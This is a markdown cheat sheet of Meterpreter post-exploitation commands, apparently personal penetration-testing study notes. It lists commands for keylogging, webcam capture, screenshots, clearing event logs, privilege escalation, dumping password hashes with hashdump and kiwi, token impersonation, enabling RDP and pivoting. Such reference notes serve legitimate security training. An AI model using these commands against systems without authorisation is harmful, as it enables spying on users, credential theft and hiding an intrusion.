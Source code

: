 ```yaml
---
title: Meterpreter
tags: [security, tool, metasploit]
---
```


Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

<u>Basic System Information</u>

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

<u>Upload & Download File</u>

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

<u>Capture Image</u>

````bash
webcam_list
webcam_snap
screenshot
````

<u>Keylogger</u>

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

<u>Operations on Target</u>

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

<u>Run Payload</u>

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

<u>Session Management</u>

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````